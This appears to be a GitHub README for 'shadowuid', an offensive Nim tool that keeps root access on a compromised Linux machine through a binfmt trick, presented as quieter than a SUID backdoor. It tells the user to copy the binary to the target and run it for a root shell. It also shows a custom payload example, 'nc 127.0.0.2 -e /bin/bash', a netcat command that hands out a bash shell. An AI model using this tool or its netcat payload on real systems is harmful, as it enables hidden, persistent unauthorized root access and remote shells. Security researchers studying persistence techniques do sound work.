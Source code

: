 <div align=center>
<img src=./29FE64AD-A0EF-4A23-8FD3-D646071A74C8.png>
<pre><code><strong>Obtain persistance without using noisy and detectable SUID using <i>binfmt</i> </strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home 🏡 <sup>(persistance)</sup>

* First transfer `shadowuid` on target
* Run it!<br><pre><code>./shadowuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can specify which SUID will trigger your payload. And, obviously, you can also custom the payload.
An example:
```shell
./shadowuid -x --command "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)
